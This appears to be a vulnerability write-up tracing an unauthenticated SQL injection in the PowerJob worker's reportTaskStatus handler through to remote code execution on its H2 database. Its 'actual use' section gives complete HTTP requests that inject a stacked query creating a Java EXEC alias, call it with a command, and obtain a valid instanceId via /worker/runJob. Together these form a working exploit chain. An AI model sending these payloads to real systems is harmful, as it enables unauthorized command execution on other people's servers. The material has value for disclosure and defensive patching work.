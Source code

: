 ## code analysis

In `tech.powerjob.worker.actors.TaskTrackerActor#onReceiveProcessorReportTaskStatusReq`, the value will be taken from the ProcessorReportTaskStatusReq entity class, and the value can be changed from the request package. The entity class is as follows, where taskId is of String type, and when entering the processing class When there is no authentication and verification value

After entering, the value of getInstanceId will be obtained first, and then judged. This value is the value assigned when the job is running, that is, the value needs to be the instanceId value of the running job. You can construct the value through /worker/runJob

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/30214593-2a73-3ab7-4761-ed33149ddd4e.png)

![截图_20230515142648.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/08da7a76-aa8d-332b-83a7-e5cd811c6197.png)

```java
public static final String WTT_PATH = "taskTracker";
public static final String WTT_HANDLER_REPORT_TASK_STATUS = "reportTaskStatus";
```

After entering `tech.powerjob.worker.core.tracker.task.heavy.HeavyTaskTracker#updateTaskStatus`, the cache will be detected first, and the database query will be performed if the cache does not exist

![截图_20230515142811.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/b4bc397b-b68a-bbf5-5043-9b32332b7293.png)

Then enter `tech.powerjob.worker.persistence.TaskPersistenceService#getTask`, generate a SimpleTaskQuery instance, just encapsulate the value in `genKeyQuery()`

![截图_20230515142848.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/df25846d-69dc-6646-6ef4-babdce6d8ab2.png)

![截图_20230515142857.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c4c3a856-d7b2-fb44-386a-a1ec72102e10.png)

Finally, enter `tech.powerjob.worker.persistence.TaskDAOImpl#simpleQuery` to splice sql statements and execute sql operations

![截图_20230515142921.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/885f11f8-9ce5-22f2-4c32-253ed1bbb3e2.png)

In `tech.powerjob.worker.persistence.SimpleTaskQuery#getQueryCondition`, judge whether the value exists and then splice the sql statement through append without any filtering

![截图_20230515142949.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/c07880fb-10ff-038b-1a53-16ddbaa38815.png)

## actual use

You can execute sql statements, but we know that the database is an H2 database, so let's try to see if we can rce
H2 database can use stacking by default, and can build java functions so rce

Send a request packet and create an EXEC function

```http
POST /taskTracker/reportTaskStatus HTTP/1.1
content-type: application/json
Content-Length: 318
host: 192.168.1.177:27777

{"instanceId":537868,"subInstanceId":2,"taskId":"test';CREATE ALIAS EXEC AS CONCAT('void e(String cmd) throws java.io.IOException',HEXTORAW('007b'),'java.lang.Runtime rt= java.lang.Runtime.getRuntime();rt.exec(cmd);',HEXTORAW('007d')); --","status":3,"result":"4","reportTime":5,"cmd":6,"appendedWfContext":{"a":"1"}}
```

Send the package again to call the EXEC function and pass the parameters

```http
POST /taskTracker/reportTaskStatus HTTP/1.1
content-type: application/json
Content-Length: 392
host: 192.168.1.177:27777

{"instanceId":537868,"subInstanceId":2,"taskId":"test';CALL EXEC('calc'); --","status":3,"result":"4","reportTime":5,"cmd":6,"appendedWfContext":{"a":"1"}}
```

![截图_20230515143408.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2513662/3eacaba8-84ce-6dbd-ccd8-306c75b552ef.png)

### get instanceId

Start a job via /worker/runJob

instanceId can be changed at will, and the classes specified in processorInfo are included in the source code

```http
POST /worker/runJob HTTP/1.1
content-type: application/json
Content-Length: 530
host: 192.168.1.177:27777

{"allWorkerAddress":["192.168.1.177:27777"],"maxWorkerCount":0,"jobId":46,"wfInstanceId":null,"instanceId":537868,"executeType":"BROADCAST","processorType":"EXTERNAL","processorInfo":"tech.powerjob.samples.tester.JobRepetitiveExecutionTester","instanceTimeoutMS":0,"jobParams":"","instanceParams":"test","threadConcurrency":5,"taskRetryNum":1,"timeExpressionType":"API","timeExpression":null,"maxInstanceNum":0,"alarmConfig":"{\"alertThreshold\":0,\"silenceWindowLen\":0,\"statisticWindowLen\":0}","logConfig":"{\"type\":1}"}
```
